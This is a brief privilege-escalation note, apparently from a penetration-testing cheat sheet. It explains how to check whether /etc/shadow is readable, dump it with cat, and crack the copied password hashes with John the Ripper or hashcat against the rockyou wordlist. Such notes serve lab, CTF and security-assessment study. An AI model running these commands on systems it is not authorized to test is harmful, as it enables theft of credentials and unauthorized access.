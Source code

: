 - - -
### Readable /etc/shadow :

###### check If you can read it :

```sh
ls -l /etc/shadow

cat /etc/shadow
```

copy the hash-file and use **john**/**hashcat** to crack it : 

```sh
john hashtocrack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

> [! Note ]
>  If you are using "**JohnTheRipper**" , Make sure to **unshadow** hashes before cracking them.


- - -

